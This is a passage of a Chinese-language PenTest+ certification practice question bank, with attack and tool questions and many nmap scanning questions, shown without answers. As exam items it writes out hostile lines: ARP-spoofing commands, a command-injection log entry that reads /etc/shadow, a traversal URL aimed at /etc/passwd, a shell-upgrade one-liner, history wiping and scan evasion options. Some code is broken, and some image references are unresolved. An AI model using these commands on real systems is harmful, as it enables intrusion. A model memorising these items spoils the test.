1. `arpspoof -c both -r -t 192.168.10.1 192.168.10.25`
2. `arpspoof -c both -t 192.168.10.25 192.168.1.253`
3. `arpspoof -t 192.168.10.25 192.168.10.254`
4. `arpspoof -r -t 192.168.1.253 192.168.10.25`

## 171. 在对基于 Web 的应用程序进行黑盒评估期间，渗透测试人员仅提供了一个登录页面的 URL。以下为代码和输出：
```
import requests
from BeautifulSoup import BeautifulSoup
request = requests.get ("https://www.willpanek.com/admin")
respHeaders, respBody = request [0], request [1]
if respHeader.statuscode = 200:
   soup = BeautifulSoup (respBody)
   soup = soup.FindAll ("div", {"type": "hidden"})
   print respHeader.StatusCode, StatusMessage
else:
   print respHeader.StatusCode, StatusMessage
```
输出：200 OK
渗透测试人员试图做什么？
1. 分析 HTTP 响应代码。
2. 水平提升权限。
3. 抓取页面中的隐藏字段。
4. 搜索 HTTP 头部。

## 172. 在 Web 应用程序渗透测试期间，渗透测试人员观察到内容安全策略头部缺失。测试人员接下来最可能执行哪种类型的攻击？
1. 点击劫持攻击
2. 命令注入攻击
3. 目录遍历攻击
4. 远程文件包含攻击

## 173. 渗透测试人员正尝试进行物理安全评估，并在测试期间想要使用“门下工具”。测试人员应尝试以下哪种入侵技术？
1. 出口传感器触发
2. 锁弹跳
3. 锁绕过
4. 锁 picking

## 174. 渗透测试人员正在对 Web 应用程序进行测试，发现用户登录过程使用 HTTP GET 方法发送 FROM 字段数据。为了降低泄露敏感数据的风险，HTML 表单应使用以下哪种方法发送？
1. HTTP OPTIONS 方法
2. HTTP POST 方法
3. HTTP PUT 方法
4. HTTP TRACE 方法

## 175. 首席财务官（CFO）收到来自首席执行官（CEO）的电子邮件，称需要为一家新供应商发放电汇。然而，CFO 和 CEO 都不知道这家新供应商是谁。CEO 声称他从未发送过请求转账的电子邮件。攻击者正在尝试哪种动机技巧？
1. 权威原则
2. 恐惧原则
3. 相似原则
4. 稀缺原则
5. 社会认同原则

## 176. 你是一名渗透测试人员，正在考虑执行 Kerberoasting 攻击。在以下情况下，你会在哪一种情况下执行 Kerberoasting 攻击？
1. 测试人员入侵了一台 Windows 设备并转储本地安全机构（LSA）密钥。
2. 测试人员需要检索安全账户管理器（SAM）数据库并破解密码哈希。
3. 测试人员入侵了一个具有有限权限的用户账户，需要针对其他账户进行横向移动。
4. 测试人员入侵了一个账户，需要从系统中转储哈希和明文密码。

## 177. 你是一名渗透测试人员，在进行测试时，正在尝试在具有有限权限的 Windows 系统上保持持久性。你应该使用哪个注册表项？
1. `HKEY_CLASSES_ROOT`
2. `HKEY_CURRENT_CONFIG`
3. `HKEY_CURRENT_USER`
4. `HKEY_LOCAL_MACHINE`

## 178. 渗透测试人员正在监控一个 WPA2-PSK 保护的无线网络，并试图捕获客户端与接入点之间的握手。即使测试人员正在监控正确的频道，也未能成功。哪种类型的攻击可以帮助测试人员获得握手？
1. 去认证攻击
2. 分片攻击
3. Karma 攻击
4. SSID 广播泛洪

## 179. 渗透测试人员已成功捕获远程 Windows 机器的管理员凭据。测试人员现在正尝试使用 `PsExec` 访问系统。然而，测试人员被拒绝权限。为了成功建立 PsExec 连接，必须可以访问哪些共享？
1. `ADMIN$` 和 `C$`
2. `ADMIN$` 和 `IPC$`
3. `ADMIN$` 和 `SERVICES`
4. `IPC$` 和 `C$`

## 180. 渗透测试人员在 Linux 文件系统上运行了以下命令：
* `chmod 4111 /usr/bin/sudo`
现在可以操纵哪些问题？
1. 内核漏洞
2. sudo 配置错误
3. 粘性位
4. 未加引号的服务路径

## 181. 安全管理员正尝试使用证书的主体备用名称（SAN）属性来加密通信。管理员应利用 SAN 的原因是什么？
1. 可以保护多个域名
2. 不需要受信任的证书颁发机构（CA）
3. 保护无限子域名
4. 提供扩展站点验证

## 182. 安全分析师正在审查 Web 应用程序的日志。分析师发现了一个可疑请求。该请求显示以下 URL：`http://www.companysite.com/about.php?i=../../../etc/passwd`。此请求试图做什么？
1. 跨站脚本
2. 目录遍历
3. 远程文件包含
4. 用户枚举

## 183. 你和同事正在讨论可以发生的不同类型的攻击。其中一种攻击类型是双方之间的通信被拦截并转发，而双方都不知道拦截的发生。这种攻击类型是什么？
1. 中间人攻击
2. Spear 钓鱼攻击
3. 传递访问攻击
4. URL 劫持攻击

## 184. 渗透测试人员已成功利用应用程序漏洞，现在需要从 Linux 会话中删除命令历史。哪个命令会删除命令历史？
1. `$ cat history /clear`
2. `$ history -c`
3. `$ history --remove`
4. `$ rm -f ./history`

## 185. 帮助台技术人员接到一个自称是员工的电话。此人已被锁定在账户外，并请求帮助解锁。帮助台在授予访问权限前要求身份证明。来电者试图执行哪种类型的攻击？
1. 冒充
2. 审问
3. 钓鱼
4. 肩窥

## 186. 渗透测试人员最近完成了一项测试，显示遗留 Web 应用程序容易受到 SQL 注入攻击。客户表示，修复漏洞需要架构变更，并且管理层不希望当前应用程序出现任何风险。以下哪种条件可以在提供低成本且短期解决方案的同时最大程度地降低 SQL 注入风险？（选择两项。）
1. 识别并从存储过程中移除动态 SQL。
2. 识别并从代码中移除内联 SQL 语句。
3. 识别并清理所有用户输入。
4. 识别恶意输入的来源并阻止 IP 地址。
5. 对 SQL 语句使用黑名单验证。


### 6. 对 SQL 语句使用白名单验证。

### 187. 一名渗透测试人员在被攻破的机器上运行以下命令：`python -c 'import pty; pty.spawn("/bin/bash")'` 测试人员正在执行什么操作？
1. 创建沙箱
2. 捕获凭据
3. 删除 Bash 历史记录
4. 升级 shell

### 188. 以下哪种类型的物理安全攻击利用了门禁陷阱？
1. 冒充
2. 撬锁
3. 跟随进入
4. 肩窥

### 189. 一名渗透测试人员使用社会工程工具包 (`SET`) 制作了公司云托管的网页邮件门户的副本，然后发送电子邮件试图获取 CEO 的登录凭据。这是哪种类型的攻击的例子？
1. 诱导攻击
2. 冒充攻击
3. 精准钓鱼攻击
4. 捕鲸攻击

### 190. 一名渗透测试人员正在测试客户网络的渗透并成功获得了对一台笔记本电脑的访问权限。测试人员下一步获取笔记本电脑凭据的操作是什么？
1. 对用户的密码进行暴力破解。
2. 执行 `LLMNR/NETBIOS-NS` 查询。
3. 利用 `BeEF` 框架捕获凭据。
4. 执行 ARP 欺骗中毒。

### 191. 你是一名渗透测试人员，发现了客户域控制器的一个漏洞。该漏洞是域控制器上启用了空会话。可以利用此漏洞执行什么类型的攻击？
1. 尝试传递哈希攻击以中继凭据。
2. 尝试密码暴力破解以登录主机。
3. 尝试 RID 循环以枚举用户和组。
4. 尝试会话劫持以冒充系统账户。

### 192. 一名渗透测试人员被要求通过进入其公司办公室来评估客户的物理安全。测试人员正在寻找一种方法，使他能够在工作时间和非工作时间进入大楼。测试人员尝试的最有效方法是什么？
1. 徽章克隆
2. 撬锁
3. 使用锁绕过
4. 跟随进入

### 193. 一个组织的总裁报告说，他接到了一些自称来自帮助台部门的人打来的电话。该个人要求 CEO 验证他的网络身份验证凭据，因为他的计算机正在网络中广播。正在进行什么类型的攻击？
1. 冒充
2. 审问
3. 语音钓鱼
4. 捕鲸

### 194. 一名渗透测试人员在测试客户网络时发现了一些未加引号的服务路径。测试人员如何利用这些漏洞？
1. 通过尝试破解服务账户密码
2. 通过尝试 DLL 劫持攻击
3. 通过尝试定位弱文件和文件夹权限
4. 通过尝试权限提升攻击

### 195. 当目标通过蓝牙收到未经请求的短信时，正在进行什么类型的攻击？
1. 蓝牙窃取
2. 蓝牙狙击
3. 蓝牙垃圾信息
4. 战争粉笔

### 196. 测试人员在服务器上发现了以下日志条目：
```
Dec 23 2018 00:22:16 httpd[2342]: GET
/app2/prod/proc/process.php?input=change;cd%20../../../etc;cat%20shadow
```
尝试了什么类型的攻击？
1. 缓冲区溢出
2. 命令注入
3. 跨站脚本
4. 密码攻击

### 197. 你和同事正在讨论不同类型的攻击。其中一种攻击是客户端攻击，用于通过 Web 浏览器使用 JavaScript 代码操纵 HTML iframe。这描述的是什么类型的攻击？
1. 缓冲区溢出
2. 跨站脚本 (`XSS`)
3. 中间人 (`MITM`)
4. SQL 注入 (`SQLi`)

### 198. 一名用户注意到其机器在过去一周内行为异常。他们经历了变慢和输入延迟。用户发现了一些文本文件，似乎包含其电子邮件的部分内容和一些即时通讯对话。用户运行病毒扫描，未检测到任何内容。什么类型的恶意软件可能影响了这台机器？
1. 后门
2. 键盘记录器
3. 勒索软件
4. Rootkit

### 199. 你和同事正在讨论竞争条件利用。以下哪一个是竞争条件的例子？
1. 跨站请求伪造 (`XSRF`)
2. 硬编码凭据
3. SQL 注入 (`SQLi`)
4. 检查时到使用时 (`TOCTTOU`)

### 200. 你是一名渗透测试人员，正在寻找对客户 Web 应用程序发起会话劫持攻击的方法。为了确保攻击成功，需要获取什么信息？
1. 一个会话 cookie
2. 一个会话票据
3. 一个用户名
4. 一个用户密码

# 第 4 章
## 渗透测试工具

### 本章涵盖的 PENTEST+ 考试主题包括：

#### 领域 4：渗透测试工具
*  4.1 给定一个场景，使用 Nmap 进行信息收集练习。
  * `SYN scan (-sS)` vs. `full connect scan (-sT)`
  * 端口选择 (`-p`)
  * 服务识别 (`-sV`)
  * 操作系统指纹识别 (`-O`)
  * 禁用 ping (`-Pn`)
  * 目标输入文件 (`-iL`)
  * 时机 (`-T`)
  * 输出参数
    * `-oA`
    * `-oN`
    * `-oG`
    * `-oX`
*  4.2 比较和对比各种工具的使用场景。
  * 使用场景
    * 侦察
    * 枚举
    * 漏洞扫描
    * 凭据攻击
      * 离线密码破解
      * 暴力破解服务
    * 持久性
    * 配置合规性
    * 规避
    * 反编译
    * 取证
    * 调试
    * 软件保证
      * 模糊测试
      * SAST
      * DAST
  * 工具
    * 扫描器
      * Nikto
      * OpenVAS
      * SQLmap
      * Nessus
    * 凭据测试工具
      * Hashcat
      * Medusa
      * Hydra
      * Cewl
      * John the Ripper
      * Cain and Abel
      * Mimikatz
      * Patator
      * Dirbuster
      * W3AF
    * 调试器
      * OLLYDBG
      * Immunity debugger
      * GDB
      * WinDBG
      * IDA
    * 软件保证
      * Findbugs/findsecbugs
      * Peach
      * AFL
      * SonarQube
      * YASCA
    * OSINT
      * Whois
      * Nslookup
      * Foca
      * TheHarvester
      * Shodan
      * Maltego
      * Recon-NG
      * Censys
    * 无线
      * Aircrack-NG
      * Kismet
      * WiFite
    * Web 代理
      * OWASP ZAP
      * Burp Suite
    * 社会工程工具
      * SET
      * BeEF
    * 远程访问工具
      * SSH
      * NCAT
      * NETCAT
      * Proxychains
    * 网络工具
      * Wireshark
      * Hping
    * 移动工具
      * Drozer
      * APKX
      * APK studio
    * 杂项
      * Searchsploit
      * Powersploit
      * Responder
      * Impacket
      * Empire
      * Metasploit framework


##  4.3 给定一个场景，分析与渗透测试相关的工具输出或数据。
- 密码破解
- 传递哈希
- 设置绑定 Shell
- 获取反向 Shell
- 代理连接
- 上传 Web Shell
- 注入

##  4.4 给定一个场景，分析一个基础脚本（限于 Bash、Python、Ruby 和 PowerShell）。
- 逻辑
  - 循环
  - 流程控制
- 输入/输出
  - 文件 vs. 终端 vs. 网络
- 替换
- 变量
- 常用操作
  - 字符串操作
  - 比较
- 错误处理
- 数组
- 编码/解码

### 1. 您正在为客户进行灰盒渗透测试。您已识别出 IP 地址为 192.168.1.1 的内部主机作为潜在目标。您需要在笔记本电脑上使用 `nmap` 实用程序对该主机运行 SYN 端口扫描。应使用哪个命令来执行此操作？
1. `nmap 192.168.1.1 -sS`
2. `nmap 192.168.1.1 -sT`
3. `nmap 192.168.1.1 -sU`
4. `nmap 192.168.1.1 -sA`

### 2. 您正在为客户进行白盒渗透测试。您需要在笔记本电脑上使用 `nmap` 实用程序扫描 192.168.1.0 子网（使用子网掩码 255.255.255.0）上的每个主机。可以使用哪些命令来执行此操作？（选择两个。）
1. `nmap 192.168.1.0`
2. `nmap 192.168.1.0-255`
3. `nmap 192.168.1.0 –m:255.255.255.0`
4. `nmap 192.168.1.0/24`
5. `nmap 192.168.1.1-254`

### 3. 您正在为客户进行灰盒渗透测试。您已识别出 IP 地址为 192.168.1.1 的内部主机作为潜在目标。您需要在笔记本电脑上使用 `nmap` 实用程序对该主机运行 SYN 端口扫描。可以使用哪些命令来执行此操作？（选择两个。）
1. `nmap 192.168.1.1 –sS`
2. `nmap 192.168.1.1`
3. `nmap 192.168.1.1 -sV`
4. `nmap 192.168.1.1 -O`
5. `nmap 192.168.1.1 –T0`

### 4. 您正在为客户进行灰盒渗透测试。您已识别出 IP 地址为 192.168.1.1 的内部主机作为潜在目标。您需要在笔记本电脑上使用 `nmap` 实用程序确定该主机上运行的操作系统。应使用哪个命令来执行此操作？
1. `nmap 192.168.1.1 –sS`
2. `nmap 192.168.1.1 –sL`
3. `nmap 192.168.1.1 -sV`
4. `nmap 192.168.1.1 -O`

### 5. 您正在为客户进行灰盒渗透测试。您已识别出 IP 地址为 192.168.1.1 的内部主机作为潜在目标。您需要在笔记本电脑上使用 `nmap` 实用程序确定该主机上运行的操作系统。可以使用哪个命令来执行此操作？
1. `nmap 192.168.1.1 –A`
2. `nmap 192.168.1.1 –T1`
3. `nmap 192.168.1.1 -sT`
4. `nmap 192.168.1.1 -f`

### 6. 您正在为客户进行灰盒渗透测试。您已识别出 IP 地址为 192.168.1.1 的内部主机作为潜在目标。您需要在笔记本电脑上使用 `nmap` 实用程序对该主机运行 TCP 连接扫描。应使用哪个命令来执行此操作？
1. `nmap 192.168.1.1 –sL`
2. `nmap 192.168.1.1 –T1`
3. `nmap 192.168.1.1 -sT`
4. `nmap 192.168.1.1 -f`

### 7. 您正在为客户进行灰盒渗透测试。您已识别出 IP 地址为 192.168.1.1 的内部主机作为潜在目标。您需要在笔记本电脑上使用 `nmap` 实用程序对该主机运行 UDP 端口扫描。应使用哪个命令来执行此操作？
1. `nmap 192.168.1.1 –sL`
2. `nmap 192.168.1.1 –U`
3. `nmap 192.168.1.1 -sT`
4. `nmap 192.168.1.1 -sU`

### 8. 您正在为客户进行灰盒渗透测试。您需要在笔记本电脑上使用 `nmap` 实用程序发现 192.168.1.0 子网（使用子网掩码 255.255.255.0）上的所有主机，而不实际扫描这些主机。应使用哪个命令来执行此操作？
1. `nmap 192.168.1.0/24 –sL`
2. `nmap 192.168.1.0/24 --list`
3. `nmap 192.168.1.1-254 -sW`
4. `nmap 192.168.1.1-254 -sM`

### 9. 您正在为客户进行灰盒渗透测试。您已识别出 IP 地址为 192.168.1.1 的内部主机作为潜在目标。您需要在笔记本电脑上使用 `nmap` 实用程序对该主机运行 TCP ACK 扫描。应使用哪个命令来执行此操作？
1. `nmap 192.168.1.1 –sA`
2. `nmap 192.168.1.1 –T1`
3. `nmap 192.168.1.1 -sT`
4. `nmap 192.168.1.1 -ACK`

### 10. 您正在为客户进行白盒渗透测试。您需要在笔记本电脑上使用 `nmap` 实用程序扫描 192.168.1.0 子网（使用子网掩码 255.255.255.0）上的每个主机，但不扫描 IP 地址为 192.168.1.250 的主机（您怀疑它是蜜罐主机）。应使用哪个命令来执行此操作？
1. `nmap 192.168.1.1-254`
2. `nmap 192.168.1.0/24 --noscan 192.168.1.250`
3. `nmap 192.168.1.0/24 --exclude 192.168.1.250`
4. `nmap 192.168.1.1-254 --skip 192.168.1.250`

### 11. 您正在为客户进行灰盒渗透测试。您需要在笔记本电脑上使用 `nmap` 实用程序对网络上 IP 地址为 192.168.1.10、192.168.1.11 和 192.168.1.13 的主机运行 TCP ACK 扫描。应使用哪个命令来执行此操作？
1. `nmap 192.168.1.10-13 –sA`
2. `nmap 192.168.1.0/24 –sA`
3. `nmap 192.168.1.10/24 -sA`
4. `nmap 192.168.1.10-13 –sT`

### 12. 您正在为客户进行灰盒渗透测试。您需要在笔记本电脑上使用 `nmap` 实用程序对网络上 IP 地址为 192.168.1.10、192.168.1.11、192.168.1.13 和 192.168.1.15 的主机运行 UDP 扫描。应使用哪个命令来执行此操作？
1. `nmap 192.168.1.10-15 –sU`
2. `nmap 192.168.1.0/24 –sU`
3. `nmap 192.168.1.10 192.168.1.11 192.168.1.12 192.168.1.13 192.168.1.15 -sU`
4. `nmap 192.168.1.10 192.168.1.11 192.168.1.12 192.168.1.13 192.168.1.15 –U`

### 13. 您正在为客户进行灰盒渗透测试。您需要在笔记本电脑上使用 `nmap` 实用程序发现 192.168.1.0 子网（使用子网掩码 255.255.255.0）上的所有主机，而不实际扫描这些主机的任何端口。应使用哪个命令来执行此操作？
1. `nmap 192.168.1.0/16 –sL`
2. `nmap 192.168.1.1-254 -sn`
3. `nmap 192.168.1.1-254 -sW`
4. `nmap 192.168.1.0/16 -sM`

### 14. 您正在为客户进行灰盒渗透测试。您需要在笔记本电脑上使用 `nmap` 实用程序发现 192.168.1.0 子网（使用子网掩码 255.255.255.0）上 Telnet 端口处于开放状态的所有主机。应使用哪个命令来执行此操作？
1. `nmap 192.168.1.0/24 –s 23`
2. `nmap 192.168.1.0/24 –p 21`
3. `nmap 192.168.1.1-254 –p 21`
4. `nmap 192.168.1.1-254 –p 23`

### 15. 您正在为客户进行灰盒渗透测试。您需要使用 `nmap` 实用程序扫描 IP 地址为 192.168.1.2 的网络主机上的所有端口。应使用哪个命令来执行此操作？
1. `nmap 192.168.1.2 -p-`
2. `nmap 192.168.1.2 –p all`
3. `nmap 192.168.1.2 –s all`
4. `nmap 192.168.1.2 –p 1-1024`

### 16. 您正在为客户进行灰盒渗透测试。您使用 `nmap` 实用程序查看发现的 Linux 服务器上是否正在运行 Telnet 服务。命令的输出表明 Telnet 端口状态为 Filtered。这可能意味着什么？
1. Telnet 服务已安装但未运行。
2. Telnet 服务未安装。
3. Telnet 服务未安装，且有其他服务使用其默认端口。
4. Telnet 服务已安装并正在运行，但主机防火墙正在阻止它。


# Nmap 渗透测试问题

## 17. 你正在为客户进行灰盒渗透测试。你使用 `nmap` 工具来查看发现的 Linux 服务器上是否正在运行 Telnet 服务。命令的输出表明 Telnet 端口状态为开放。这意味着什么？
1. Telnet 服务已安装但未运行。
2. Telnet 服务已安装、正在运行且可访问。
3. Telnet 服务未安装，且有其他服务在使用其默认端口。
4. Telnet 服务未安装。

## 18. 你正在为客户进行灰盒渗透测试。你使用 `nmap` 工具来查看发现的 Linux 服务器上是否正在运行 Telnet 服务。命令的输出表明 Telnet 端口状态为 Closed。这可能意味着什么？（选择两项。）
1. Telnet 服务已安装但未运行。
2. Telnet 服务已安装、正在运行且可访问。
3. Telnet 服务未安装，且有其他服务在使用其默认端口。
4. Telnet 服务未安装。
5. Telnet 服务已安装并正在运行，但主机防火墙阻止了它。

## 19. 渗透测试人员使用 `nmap` 工具向目标主机发送 TCP SYN 数据包。目标主机以 SYN ACK 数据包作出响应，但 `nmap` 没有完成连接，而是向目标主机发送了重置数据包。测试人员在 `nmap` 命令中使用了哪个选项？
1. `-sS`
2. `-sT`
3. `-sU`
4. `-sL`

## 20. 哪个命令选项会导致 `nmap` 检测目标主机上运行的服务并报告所发现服务的版本号？
1. `-sS`
2. `-sT`
3. `-sU`
4. `-sV`

## 21. 哪个命令选项会使 `nmap` 仅扫描 UDP 端口 20 和 TCP 端口 21 和 22？
1. `-p 20-22`
2. `--top-ports 1024`
3. `-p U:20,T:21,22`
4. `-p-`

## 22. 作为渗透测试人员，你想扫描目标网络中 IP 地址为 192.168.1.200 的 Linux 服务器，查看其是否安装并运行着 Web 服务器。哪些 `nmap` 命令可以做到这一点？（选择两项。）
1. `nmap 192.168.1.200 –p http,https`
2. `nmap 192.168.1.200 –sn 80,443`
3. `nmap 192.168.1.200 –p 80,443`
4. `nmap 192.168.1.200 –T4 80,443`

## 23. 作为渗透测试人员，你想扫描目标网络中 IP 地址为 192.168.1.200 的 Linux 服务器，检查 1000 个最流行的网络服务是否已安装并运行。但是你已经知道该主机正在运行 DNS 服务，因此你想在扫描中跳过此端口。哪个 `nmap` 命令可以做到这一点？
1. `nmap 192.168.1.200 –p 1-1000 --exclude-ports 53`
2. `nmap 192.168.1.200 --top-ports 1000 --exclude-ports 53`
3. `nmap 192.168.1.200 --well-known-ports --exclude-ports 53`
4. `nmap 192.168.1.200 --top-ports 1000`

## 24. 你已创建了一个要使用 `nmap` 扫描的目标主机列表，并将其保存到名为 `/root/targets.txt` 的文本文件中。你应该使用哪个命令通过此文件运行扫描？
1. `nmap -iR /root/targets.txt`
2. `nmap --file /root/targets.txt`
3. `nmap -iL /root/targets.txt`
4. `nmap -iF /root/targets.txt`

## 25. 渗透测试人员希望对 192.168.1.0 子网（子网掩码为 255.255.255.0）上的所有主机进行端口扫描，而不事先发现主机。她应该使用哪个命令？
1. `nmap 192.168.1.0/24 -Pn`
2. `nmap 192.168.1.0/24 -sL`
3. `nmap 192.168.1.0/24 -sn`
4. `nmap 192.168.1.0/24 -n`

## 26. 渗透测试人员正在使用 `nmap` 扫描目标网络上的主机。客户使用了一种激进的 IPS 工具，并雇用了经验丰富的 IT 人员，她需要避免被发现。为避免被检测，在时间不是问题的情况下，她应该使用 `nmap` 的哪个计时选项？
1. `-T1`
2. `-T3`
3. `-T4`
4. `-T5`

## 27. 渗透测试人员正在使用 `nmap` 扫描目标网络上的主机。客户的安全态势较为宽松，并雇用了相对缺乏经验的 IT 人员。她可以考虑使用 `nmap` 的哪个计时选项来加快扫描速度？
1. `-T1`
2. `-T2`
3. `-T3`
4. `-T4`

## 28. 渗透测试人员运行 `nmap` 扫描时未指定计时选项。默认使用哪一个？
1. `-T1`
2. `-T2`
3. `-T3`
4. `-T4`
5. `-T0`

## 29. 哪个 `nmap` 计时选项会导致其以 Paranoid 模式扫描？
1. `-T0`
2. `-T1`
3. `-T2`
4. `-T3`
5. `-T4`

## 30. 哪个 `nmap` 计时选项会导致其以 Insane 模式扫描？
1. `-T5`
2. `-T4`
3. `-T3`
4. `-T2`
5. `-T1`

## 31. 哪个 `nmap` 计时选项会导致其以 Polite 模式扫描？
1. `-T0`
2. `-T1`
3. `-T2`
4. `-T3`
5. `-T4`

## 32. 哪个选项会导致 `nmap` 将其输出保存到运行它的主机文件系统中的标准文本文件？
1. `-oX`
2. `-oN`
3. `-oT`
4. `-oV`

## 33. 哪个选项会导致 `nmap` 将其输出保存到运行它的主机文件系统中的 XML 格式文本文件？
1. `-oX`
2. `-oN`
3. `-oT`
4. `-oG`

## 34. 哪个选项会导致 `nmap` 将其输出保存到可使用 grep 命令快速搜索的文本文件？
1. `-oV`
2. `-oN`
3. `-oT`
4. `-oG`

## 35. 哪个选项会导致 `nmap` 同时将输出保存为普通文本文件、XML 格式文本文件和可 grep 文本文件？
1. `-oX`
2. `-oN`
3. `-oA`
4. `-oG`

## 36. 哪个选项会导致 `nmap` 使用微小、碎片化的数据包进行扫描，以试图欺骗数据包过滤防火墙？
1. `-f`
2. `-Pn`
3. `-n`
4. `-sC`

## 37. 哪个选项会导致 `nmap` 从伪造的 IP 地址发送扫描？
1. `-f`
2. `-D`
3. `-n`
4. `-sF`

## 38. 哪个选项会导致 `nmap` 扫描指定数量的随机主机？
1. `-iL`
2. `-sS`
3. `-sR`
4. `-iR`

## 39. 哪个选项会导致 `nmap` 扫描主机上 100 个最常用的 IP 端口，例如 20、21、23、25、53、80 等？
1. `-p-`
2. `-sV`
3. `-F`
4. `-p 100`

## 40. 哪个 `nmap` 选项会导致实用程序通过代理服务器中继连接？
1. `--proxies`
2. `-S`
3. `-D`
4. `-g`

## 41. 请考虑以下图像：

哪些 `nmap` 命令可能用于生成此输出？（选择两项。）
1. `nmap 10.0.0.1`
2. `nmap 10.0.0.1 -sS`
3. `nmap 10.0.0.1 -sL`
4. `nmap 10.0.0.1 -sn`

## 42. 请考虑以下图像：

哪个 `nmap` 命令可能用于生成此输出？
1. `nmap 10.0.0.1 -PA`
2. `nmap 10.0.0.1 -sT`
3. `nmap 10.0.0.1 -sL`
4. `nmap 10.0.0.1 -sn`

## 43. 请考虑以下图像：

哪个 `nmap` 命令可能用于生成此输出？
1. `nmap 10.0.0.1`
2. `nmap 10.0.0.1 -sS`
3. `nmap 10.0.0.1 -sU`
4. `nmap 10.0.0.1 -sT`

## 44. 请考虑以下图像：

哪个 `nmap` 命令可能用于生成此输出？
1. `nmap 10.0.0.1 -sA`
2. `nmap 10.0.0.1 -sS`
3. `nmap 10.0.0.1 -sU`
4. `nmap 10.0.0.1 -sT`

## 45. 请考虑以下图像：

哪个 `nmap` 命令可能用于生成此输出？
1. `nmap 10.0.0.5 -v`
2. `nmap 10.0.0.5 -sS`
3. `nmap 10.0.0.5 -sU`
4. `nmap 10.0.0.5 -sT`

## 46. 请考虑以下图像：

哪个 `nmap` 命令可能用于生成此输出？
1. `nmap 10.0.0.5`
2. `nmap 10.0.0.5 -sS`
3. `nmap 10.0.0.5 –sU -vv`
4. `nmap 10.0.0.5 –sT -v`

## 47. 请考虑以下图像：

哪个 `nmap` 命令可能用于生成此输出？


1. `nmap 10.0.0.1-10`
2. `nmap 10.0.0.1-10 -sL`
3. `nmap 10.0.0.1-10 –Pn`
4. `nmap 10.0.0.1-10 –PS`

## 48. 请考虑以下图像：

哪个 `nmap` 命令可能用于生成此输出？
1. `nmap 10.0.0.1-10`
2. `nmap 10.0.0.1-10 -sL`
3. `nmap 10.0.0.1-10 –sn`
4. `nmap 10.0.0.1-10 –PR`

## 49. 请考虑以下图像：

哪个 `nmap` 命令可能用于生成此输出？
1. `nmap 10.0.0.1-10 –p 80`
2. `nmap 10.0.0.1-10 -F`
3. `nmap 10.0.0.1-10 –sn 80`
4. `nmap 10.0.0.1-10 –p-`

## 50. 请考虑以下图像：

哪个 `nmap` 命令可能用于生成此输出？
1. `nmap 10.0.0.5`
